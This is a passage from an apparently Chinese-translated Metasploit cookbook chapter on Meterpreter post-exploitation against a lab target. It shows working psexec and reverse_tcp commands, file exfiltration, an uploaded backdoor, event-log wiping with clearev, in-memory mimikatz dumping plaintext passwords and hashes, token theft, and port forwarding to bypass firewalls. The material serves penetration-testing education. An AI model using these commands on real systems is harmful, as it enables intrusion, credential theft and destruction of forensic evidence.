









## 13 Meterpreter

本章中，我们将介绍以下配方：

- 了解 Meterpreter 核心命令
- 了解 Meterpreter 文件系统命令
- 了解 Meterpreter 网络命令
- 了解 Meterpreter 系统命令
- 设置与目标的多通道通信
- Meterpreter 反取证
- `getdesktop` 和 `keystroke` 嗅探
- 使用抓取器 Meterpreter 脚本
- 使用 `winenum` 抓取系统
- 使用 `AutoRunScript` 实现自动化
- Meterpreter 资源脚本
- Meterpreter 超时控制
- Meterpreter 休眠控制
- Meterpreter 传输方式
- 与注册表交互
- 加载框架插件
- Meterpreter API 和混入
- Railgun——将 Ruby 转换为武器
- 向 Railgun 添加 DLL 和函数定义
- 远程注入 VNC 服务器
- 启用远程桌面

## Introduction

到目前为止，我们更侧重于利用阶段，在该阶段我们尝试了各种技术和漏洞利用来入侵目标。本章中，我们将重点关注 Meterpreter，即 Metasploit 中最先进的 payload，以及在入侵目标机器后我们可以做什么。Meterpreter 为我们提供了许多功能，可以简化探索目标机器的任务。我们在前几章中已经了解了如何使用 Meterpreter，但在接下来的章节中，我们将详细了解 Meterpreter，以及如何将其用作后利用阶段的潜在工具。

我们一直在使用 payloads 来实现特定结果，但它们有一个主要缺点。Payloads 通过在被入侵系统中创建新进程来工作。这可能会触发防病毒程序的警报并且很容易被捕获。此外，payload 仅限于执行某些特定任务或运行 shell 可以执行的特定命令。为了克服这些困难，Meterpreter 应运而生。

Meterpreter 是 Metasploit 的命令解释器，作为 payload 运作，并通过使用内存中的 DLL 注入和原生共享对象格式工作。它在被利用进程的上下文中工作；因此，它不会创建任何新进程。这使其更隐蔽、更强大。

让我们看一下一些 Meterpreter 功能。下面的图表展示了加载 Meterpreter 的简单逐步表示：



在第一步中，漏洞利用程序和第一阶段 payload 被发送到目标机器。利用成功后，该阶段会建立一个 TCP 连接返回到指定地址和端口上的 `msfconsole`。接下来，`msfconsole` 发送第二阶段 DLL 注入 payload。注入成功后，它会发送 Meterpreter DLL 以建立适当的通信通道。最后，Meterpreter 加载诸如 `stdapi` 和 `priv` 之类的扩展。所有这些扩展都是通过 TLS 使用 TLV 协议加载的。Meterpreter 使用与目标的加密通信，这也是使用它的另一个主要优势。

让我们快速总结一下 Meterpreter 相对于特定 payload 的优势：

- 它在被利用进程的上下文中工作，因此不会创建新进程
- 它可以轻松在进程之间迁移
- 它完全驻留在内存中，因此不会向磁盘写入任何内容
- 它使用加密通信
- 它使用通道化通信系统，因此我们可以同时处理多个通道
- 它提供了一个平台，可快速轻松地编写扩展

本章完全致力于使用 Meterpreter 为我们提供的各种命令和脚本来探索目标机器。我们将首先分析常见的 Meterpreter 命令。然后，我们将继续设置不同的通信通道、使用网络命令、按键嗅探等。最后，我们将讨论抓取器 Meterpreter 脚本，该脚本可以创建一个包含有关目标用户各种信息的单个目录。在本章中，我们将主要关注有助于探索被入侵系统的命令和脚本。

那么，让我们继续前进，看看能够让我们更深入了解 Meterpreter 的配方。

## 了解 Meterpreter 核心命令

让我们开始使用 Meterpreter 命令来了解其功能。由于它是一个后利用工具，我们需要一个被入侵的目标来执行命令。我们将使用 Metasploitable 3 机器作为目标，我们已使用 Microsoft Windows Authenticated User Code Execution 漏洞利用模块对其进行了利用。

### 准备工作

为了避免每次想要测试 Meterpreter 命令时都要设置 Microsoft Windows Authenticated User Code Execution 漏洞利用模块，我们将使用我最喜欢的 Metasploit Framework 功能之一——资源脚本。资源脚本为我们在 Metasploit 中自动化重复任务提供了一种简便的方法。

### 如何操作...

1. Metasploit Framework 包含社区贡献的多个资源脚本，你可以在 Kali Linux 机器中的 `/usr/share/metasploit-framework/scripts/resource/` 找到它们：

```
root@kali:~# ls /usr/share/metasploit-framework/scripts/resource/
auto_brute.rc                fileformat_generator.rc
auto_cred_checker.rc          mssql_brute.rc
auto_pass_the_hash.rc         multi_post.rc
auto_win32_multihandler.rc    nessus_vulns_cleaner.rc
autocrawler.rc                oracle_login.rc
autoexploit.rc                oracle_sids.rc
bap_all.rc                    oracle_tns.rc
bap_dryrun_only.rc            port_cleaner.rc
bap_firefox_only.rc           portscan.rc
bap_flash_only.rc             run_all_post.rc
bap_ie_only.rc                wmap_autotest.rc
basic_discovery.rc
```

2. 要创建自己的资源脚本，我们只需执行模块，然后使用 makerc 命令将自启动以来执行的已保存命令创建为资源文件：

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(psexec) > set SMBUSER Administrator
SMBUSER => Administrator
msf exploit(psexec) > set SMBPASS vagrant
SMBPASS => vagrant
msf exploit(psexec) > set PAYLOAD
windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.216.5:4444
[*] 192.168.216.10:445 - Connecting to the server...
...

meterpreter >
Background session 1? [y/N]
msf exploit(psexec) > makerc /root/psexec.rc
[*] Saving last 7 commands to /root/psexec.rc ...
msf exploit(psexec) >
```

3. 生成的资源脚本包含以下内容：

```
root@kali:~# cat psexec.rc
use exploit/windows/smb/psexec
set RHOST 192.168.216.10
set SMBUSER Administrator
set SMBPASS vagrant
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.216.5
exploit
root@kali:~#
```


4. 启动 msfconsole 时运行资源脚本，请使用 -r 选项后跟资源脚本的路径：

```
root@kali:~# msfconsole -q -r psexec.rc
...
[*] 192.168.216.10:445 - Selecting PowerShell target
[*] 192.168.216.10:445 - Executing the payload...
[+] 192.168.216.10:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (179267 bytes) to 192.168.216.10
[*] Meterpreter session 1 opened (192.168.216.5:4444 -> 192.168.216.10:49292) at 2017-10-30 07:42:23 -0400

meterpreter >
```

5. 在攻破目标机器后，由于我们使用了 windows/meterpreter/reverse_tcp 有效载荷，我们将拥有一个已启动的 Meterpreter 会话。我们将从使用简单的 ? 命令开始，该命令将列出所有可用的 Meterpreter 命令以及简短说明：

```
meterpreter > ?
```

6. 让我们从一些有用的系统命令开始：

- background: 此命令用于将当前会话设置为后台，以便在需要时再次使用。当存在多个活动 Meterpreter 会话时，此命令很有用。
- getuid: 此命令返回在目标机器上运行的用户名称或我们入侵的用户名称：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
- `getpid`: 此命令返回我们当前运行 Meterpreter 的进程 ID：

```
meterpreter > getpid
Current pid: 666
```
- `ps`: 此命令将列出目标机器上运行的所有进程。它有助于识别目标上运行的各种服务和软件：

```
meterpreter > ps
Process List

PID  PPID  Name                     Arch  Session  User              Path
---  ----  ----                     ----  -------  ----              ----
0    0     [System Process]
4    0     System                   x64   0        NT AUTHORITY\SYSTEM
12   772   taskeng.exe             x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\taskeng.exe
224  4     smss.exe                x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\smss.exe
256  436   svchost.exe             x64   0        NT AUTHORITY\LOCAL SERVICE  C:\Windows\System32\svchost.exe
292  284   csrss.exe               x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\csrss.exe
```
- `sysinfo`: 这是一个方便的命令，可快速验证系统信息，例如操作系统和架构：

```
meterpreter > sysinfo
Computer : VAGRANT-2008R2
OS : Windows 2008 R2
    (Build 7601, Service Pack 1).
Architecture : x64
System Language : en_US
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x86/windows
```



- **shell**: 此命令将我们带到 shell 提示符。我们已经在之前的一些教程中见过此 Meterpreter 命令的使用：

```
meterpreter > shell
Process 5704 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.
All rights reserved.

C:\Windows\system32>
```
- **exit**: 此命令用于终止 Meterpreter 会话。它也可以用于终止 shell 会话并返回到 Meterpreter。

这些是一些有用的系统命令，可用于探索被攻破的目标以获取更多信息。还有很多其他命令，我留给你尝试和探索。你可能已经注意到，使用 Meterpreter 命令探索目标是多么容易，如果没有它，这将是一项困难的任务。在我们的下一个教程中，我们将重点介绍一些高级 Meterpreter 命令。

## 它是如何工作的...

Meterpreter 就像任何命令解释器一样工作。它旨在通过命令理解和响应各种参数调用。它驻留在被利用/被攻破进程的上下文中，并与渗透测试人员的机器创建客户端/服务器通信系统，如下图所示：



上图简要演示了 Meterpreter 的工作原理。一旦通信通道建立，我们就可以向 Meterpreter 服务器发送命令调用，将其响应返回到我们的机器。随着本章的推进，我们将更详细地了解渗透测试机器与被攻破目标之间的通信。

## 了解 Meterpreter 文件系统命令

在本教程中，我们将转向文件系统命令。这些命令有助于探索目标系统以执行各种任务，例如搜索文件、下载文件和更改目录。你会注意到使用 Meterpreter 控制目标机器是多么容易。因此，让我们开始使用一些有用的文件系统命令。

## 如何操作...

1. 我们将从简单的 `pwd` 命令开始，该命令列出目标机器上的当前工作目录。同样，我们可以使用 `cd` 命令将工作目录更改为首选位置：
2. 现在我们可以处理目录了，我们下一个任务将是在驱动器上搜索文件。浏览每个目录和子目录查找文件将非常繁琐。我们可以使用 search 命令快速搜索特定文件类型。请考虑以下示例：

```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd \
meterpreter > pwd
C:\
```

如你所见，我们首先使用 `pwd` 命令列出了工作目录，然后使用 `cd` 命令将工作目录更改为 `C:`。我们也可以使用 `ls` 命令列出当前目录中的可用文件。

```
meterpreter > search -f *.doc -d c:\
Found 3 results...
c:\ManageEngine\DesktopCentral_Server\licenses
\LICENSE_TRAYICON.doc (24064 bytes)
c:\Program Files\OpenSSH\home\Public\Documents
\jack_of_hearts.docx (676796 bytes)
c:\Users\Public\Documents
\jack_of_hearts.docx (676796 bytes)
```

此命令将搜索 C: 驱动器中所有文件扩展名为 .doc 的文件。-f 参数用于指定要搜索的文件模式，而 -d 参数指定要搜索文件的目录。

3. 因此，一旦我们搜索到特定文件，下一步就可以将文件下载到目标机器本地。首先，让我们尝试将文件下载到我们的攻击系统：

```
meterpreter > download
C:\\Users\\Public\\Documents\\jack_of_hearts.docx
[*] Downloading: C:\Users\Public\Documents
    \jack_of_hearts.docx -> jack_of_hearts.docx
[*] Downloaded 660.93 KiB of 660.93 KiB (100.0%):
C:\Users\Public\Documents\jack_of_hearts.docx
    -> jack_of_hearts.docx
[*] download : C:\Users\Public\Documents
    \jack_of_hearts.docx -> jack_of_hearts.docx
```

请注意，在 download 命令中给出 Windows 路径时需要使用双反斜杠。

通过使用 download 命令，我们可以成功地将目标机器上的任何文件下载到我们的机器。C:\Users\Public\Documents\jack_of_hearts.docx 文件将被下载到我们攻击机器的根文件夹中。

4. 同样，我们可以使用 upload 命令将任何文件发送到目标机器：

```
meterpreter > upload backdoor.exe
[*] uploading : backdoor.exe -> backdoor.exe
[*] uploaded : backdoor.exe -> backdoor.exe
```

5. 要从目标机器中删除文件或目录，我们可以使用 rm 命令：

```
meterpreter > rm backdoor.exe
```

6. 使用 Meterpreter 编辑文件可以通过使用 edit 命令来完成，该命令使用 vim，因此所有编辑器的命令都可用：

```
meterpreter > edit flag.txt
```

7. 我最喜欢的命令之一是 show_mount 命令，它允许你列出目标系统中的所有挂载点/逻辑驱动器：

```
meterpreter > show_mount
```

```
Mounts / Drives
================

Name    Type    Size (Total)    Size (Free)    Mapped to
----    ----    ------------    -----------    ---------
C:\     fixed   60.00 GiB       42.31 GiB

Total mounts/drives: 1
```

8. 要显示所有可用命令，可以使用 help 命令后跟要显示的命令组：

```
meterpreter > help File system Commands
```

```
Stdapi: File system Commands
===========================

Command      Description
-------      -----------
cat          Read the contents of a file
             to the screen
cd           Change directory
checksum     Retrieve the checksum of a
             file.
...
```

## 它是如何工作的...

Meterpreter 通过设置交互式命令提示符为我们提供对目标机器的完全访问。我们也可以启动一个 shell 会话以在默认的 Windows DOS 模式下工作，但它没有那么多功能。这是对 Meterpreter 的一些重要文件系统命令的快速参考，可帮助我们探索目标机器上存在的文件。还有更多命令；建议你尝试它们并找到存在的各种可能性。


在下一个教程中，我们将介绍一个非常有趣的 Meterpreter 命令 `timestomp`，它可用于修改目标机器上的文件属性。

## 了解 Meterpreter 网络命令

Meterpreter 还为我们提供了一些有用的网络命令。这些命令可用于了解目标用户的网络结构。我们可以分析系统是否属于局域网或是否为独立系统。我们还可以查出 IP 范围、DNS 和其他信息。当我们需要执行 pivot 时，此类网络信息会很有用。Pivoting 是一个概念，通过它我们可以入侵与目标存在于同一网络中的其他机器。我们还将了解 pivoting，其中将重点关注 Meterpreter 的高级使用。

### 准备工作

在进入教程之前，这里会有三个网络术语。我们先快速回顾一下以下术语：

- **Subnetwork** 或 **subnet** 是将大型网络划分为更小、可识别部分的概念。子网划分是为了提高地址利用率和安全性。
- **netmask** 是一个 32 位掩码，用于将 IP 地址划分为子网并指定网络可用的主机。
- **gateway** 指定转发或下一跳 IP 地址，通过该地址可以访问由网络目标和子网掩码定义的一组地址。

在处理 `route` 命令和其他网络命令时，我们将使用这三个术语。

### 如何操作...

- 1. Meterpreter 提供了多个网络命令，我们可以使用 help 命令后跟 net 来显示网络相关命令。下面快速了解一下它们：
- 2. arp 命令显示主机的 ARP 缓存：
- 3. getproxy 命令允许我们查看当前的代理配置：

```
meterpreter > help net

Stdapi: Networking Commands
===========================

Command       Description
-------       -----------
arp           Display the host ARP cache
getproxy      Display the current proxy
              configuration
ifconfig      Display interfaces
ipconfig      Display interfaces
netstat       Display the network connections
portfwd       Forward a local port to a
              remote service
resolve       Resolve a set of host names
              on the target
route         View and modify the routing table
```

```
meterpreter > arp

ARP cache
=========

IP address    MAC address      Interface
----------    -----------      ---------
10.0.0.2      00:50:56:e7:ac:5c 19
10.0.0.129    00:0c:29:2d:94:ea 19
10.0.0.254    00:50:56:fb:75:cc 19
...
```

```
meterpreter > getproxy
Auto-detect : Yes
Auto config URL :
Proxy URL :
Proxy Bypass :
```

- 4. ipconfig/ifconfig 命令用于显示目标机器的所有 TCP/IP 网络配置。它们列出目标 IP 地址、硬件 MAC 和子网掩码等信息：

```
meterpreter > ifconfig

Interface 1
==========
Name : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

...

Interface 19
===========
Name : Intel(R) PRO/1000 MT Network Connection #2
Hardware MAC : 00:0c:29:38:b3:b3
MTU : 1500
IPv4 Address : 10.0.0.132
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::2cf6:bd0e:492e:dff6
IPv6 Netmask : ffff:ffff:ffff:ffff::
...
```

如你所见，ifconfig 的输出列出了各种活动的 TCP/IP 配置。

- 5. netstat 命令显示网络连接：

```
meterpreter > netstat

Connection list
===============

Proto Local address Remote address State User Inode
PID/Program name
---- ------------ ------------ ---- ---- ----
tcp 0.0.0.0:22 0.0.0.0:* LISTEN 0 0
2948/sshd.exe
tcp 0.0.0.0:135 0.0.0.0:* LISTEN 0 0
640/svchost.exe
```

```
tcp      0.0.0.0:445      0.0.0.0:*      LISTEN 0      0
4/System
tcp      0.0.0.0:1617     0.0.0.0:*      LISTEN 0      0
1904/java.exe
tcp      0.0.0.0:3000     0.0.0.0:*      LISTEN 0      0
5352/ruby.exe
...
```

- 6. portfwd 命令用于将传入的 TCP 和/或 UDP 连接转发到远程主机。考虑以下示例以了解端口转发：

假设主机 A、中间的主机 B 和主机 C。主机 A 需要连接到主机 C 以执行某些操作，但如果由于某种原因无法实现，主机 B 可以直接连接到 C。如果我们在中间使用主机 B，从 A 获取连接流并将其传递给 B，同时处理连接，我们就说主机 B 正在进行端口转发。这就是在网络上出现的情况——主机 B 运行着一个软件，在其某个端口（例如端口 20）上打开 TCP 监听器。主机 C 也运行着一个监听器，当数据包到达端口 20 时用于连接到主机 B。因此，如果 A 向 B 的端口 20 发送任何数据包，它将被自动转发到主机 C。因此，主机 B 将其数据包端口转发到主机 C。

- 7. 下一个网络命令是 route 命令。它类似于 MS-DOS 的 route 命令。此命令用于显示或修改目标机器上的本地 IP 路由表。执行 route 命令会列出当前表：

```
meterpreter > route
```

```
IPv4 network routes
===================

Subnet      Netmask          Gateway          Metric  Interface
------      -------          --------         ------  ---------
0.0.0.0     0.0.0.0           192.168.216.2     266     13
0.0.0.0     0.0.0.0           10.0.0.2          10      19
10.0.0.0    255.255.255.0     10.0.0.132        266     19
10.0.0.132  255.255.255.255   10.0.0.132        266     19
10.0.0.255  255.255.255.255   10.0.0.132        266     19
127.0.0.0   255.0.0.0         127.0.0.1         306     1
...
```

- 8. 要显示特定命令的帮助菜单，例如 route 命令，可以使用 -h 标志：

```
meterpreter > route -h
Usage: route [-h] command [args]

Display or modify the routing table on the
remote machine.

Supported commands:

add [subnet] [netmask] [gateway]
delete [subnet] [netmask] [gateway]
list
```

### 原理说明...

要开始与远程主机进行端口转发，我们可以先添加一条转发规则。考虑以下命令行：

```
meterpreter> portfwd -a -L 127.0.0.1 -l 444 -h
69.54.34.38 -p 3389
```

注意不同的命令参数。使用 -a 参数，我们可以添加新的端口转发规则。-L 参数定义要绑定转发套接字的 IP 地址。由于我们在主机 A 上运行这些参数，并希望从同一主机继续工作，因此将 IP 地址设置为 127.0.0.1：

- -l: 是在主机 A 上打开以接受传入连接的端口号
- -h: 定义主机 C 或内部网络中任何其他主机的 IP 地址
- -p: 是要连接到主机 C 上的端口

这是一个使用端口转发的简单演示。此技术常被用于绕过防火墙和入侵检测系统。

## 了解 Meterpreter 系统命令

Meterpreter 系统命令允许您在不切换到 shell 会话的情况下访问特定于系统的命令。

### 如何操作...

- 1. `clearev` 清除目标系统上的应用程序、系统和安全日志：
```
meterpreter > clearev
[*] Wiping 525 records from Application...
[*] Wiping 1916 records from System...
[*] Wiping 1565 records from Security...
```
- 2. `execute` 命令在目标上执行命令。`execute` 命令的强大之处在于它允许我们从内存中运行命令，而无需将二进制文件上传到目标，从而有效绕过多个防病毒产品。

在下一个示例中，我将向你展示如何直接在内存中运行 `mimikatz`。我将使用的命令如下：
```
execute -H -i -c -m -d calc.exe -f /usr/share/mimikatz/x64/mimikatz.exe -a '"sekurlsa::logonPasswords full" exit'
```
从前面的命令来看：

- `-H` 隐藏进程
- `-i` 允许我们在创建进程后与其交互
- `-c` channel I/O
- `-m` 指示我们想要从内存执行
- `-d` 用于我们想要启动的伪装可执行文件
- `calc.exe` 是伪装可执行文件
- `-f` 用于要运行的可执行命令的路径


- `/usr/share/mimikatz/x64/mimikatz.exe` 是我们在 Kali Linux 机器中 `mimikatz` 二进制文件的路径
- `-a` 用于向命令传递参数，而 `"sekurlsa::logonPasswords full" exit` 是传递给 `mimikatz` 的参数

以下是一个显示管理员密码明文的输出片段：

```
meterpreter > execute -H -i -c -m -d calc.exe -f
/usr/share/mimikatz/x64/mimikatz.exe -a '
"sekurlsa::logonPasswords full" exit'
Process 5920 created.
Channel 3 created.

.#####. mimikatz 2.1.1 (x64) built on Aug 1
2017 04:46:23
.## ^ ##. "A La Vie, A L'Amour"
## / \ ## /* * *
## \ / ## Benjamin DELPY `gentilkiwi`
( benjamin@gentilkiwi.com )
'## v ##' http://blog.gentilkiwi.com/mimikatz
(oe.eo)
'#####' with 21 modules * * */

mimikatz(commandline) # sekurlsa::logonPasswords
full

...
* Username : Administrator
* Domain : VAGRANT-2008R2
* LM : 5229b7f52540641daad3b435b51404ee
* NTLM : e02bc503339d51f71d913c245d35b50b
* SHA1 : c805f88436bcd9ff534ee86c59ed230437505ecf
tspkg :
* Username : Administrator
* Domain : VAGRANT-2008R2
* Password : vagrant
...
```

在运行 `mimikatz` 之前，使用 `migrate -N lsass.exe` 命令迁移到 `LSASS.exe` 进程。

3. `getpid` 命令显示当前进程标识符：

```
meterpreter > getpid
Current pid: 456
```

4. `getprivs` 命令将尝试启用当前进程可用的所有权限：

```
meterpreter > getprivs

Enabled Process Privileges
===========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
...
```

5. `getsid` 命令获取目标以其运行的用户 SID：

```
meterpreter > getsid
Server SID: S-1-5-18
```

6. `getuid` 命令显示目标以其运行的用户：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

7. `kill` 命令将使用其 PID 终止一个或多个进程：

```
meterpreter > kill 4372
Killing: 4372
```

8. `pgrep` 命令按名称过滤进程：

```
meterpreter > pgrep calc.exe
4372
```

9. `pkill` 命令按名称终止进程：

```
meterpreter > pkill notepad.exe
Filtering on 'notepad.exe'
Killing: 6000
```

10. `ps` 命令列出所有正在运行的进程：

```
meterpreter > ps -S backdoor.exe
Filtering on 'backdoor.exe'

Process List
============
```

| PID | PPID | 名称 | 架构 | 会话 | 用户 | 路径 |
| --- | ---- | ---- | ---- | ------ | ---- | ---- |
| 744 | 456 | mspaint.exe | x64 | 0 | NT AUTHORITY\SYSTEM | C:\backdoor.exe |

11. 要显示所有 ps 命令选项，我们可以使用 -h 标志：

```
meterpreter > ps -h
Usage: ps [ options ] pattern
```

使用不带参数的命令可查看所有正在运行的进程。以下选项可用于过滤这些结果：

- -A <opt>: 按架构过滤
- -S <opt>: 按进程名称过滤
- -U <opt>: 按用户名过滤
- -c: 仅过滤当前 shell 的子进程
- -h: 帮助菜单
- -s: 仅过滤系统进程
- -x: 过滤精确匹配而非正则表达式
- reg: 用于修改和交互远程注册表

```
meterpreter > reg enumkey -k HKLM\Software
Enumerating: HKLM\Software

Keys (17):

7-Zip
ATI Technologies
CBSTEST
...
Policies
RegisteredApplications
Wow6432Node
```

12. `shell` 命令允许我们进入系统命令 shell：

```
meterpreter > shell
Process 5796 created.
Channel 4 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.
All rights reserved.

C:\Windows\system32>
```

13. `steal_token` 命令将尝试从目标进程窃取模拟令牌：

```
meterpreter > steal_token 4740
Stolen token with username: VAGRANT-2008R2\Administrator
meterpreter > getuid
Server username: VAGRANT-2008R2\Administrator
```

14. `rev2self` 命令在远程目标上调用 RevertToSelf()：

```
meterpreter > rev2self
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

15. `suspend` 命令将挂起或恢复一系列进程：

```
meterpreter > suspend 500
[*] Suspending: 500
[*] Targeting process with PID 500...
```

## 使用目标设置多个通信通道

在本教程中，我们将了解如何设置多个通道以与目标通信。如本章介绍中所讨论的，Meterpreter 中客户端与服务器之间的通信采用加密形式，并使用 Type-Length-Value (TLV) 协议进行数据传输。使用 TLV 的主要优势在于它允许使用特定的通道号标记数据，从而允许在受害者上运行的多个程序与攻击机器上的 Meterpreter 通信。这有助于同时设置多个通信通道。

现在，让我们分析如何使用 Meterpreter 设置与目标机器的多个通信通道。

### 准备工作

如前一教程所示，Meterpreter 为我们提供了一个名为 execute 的特定命令，可用于启动多个通信通道。首先，让我们运行 execute -h 命令以查看可用选项：

```
meterpreter > execute -h
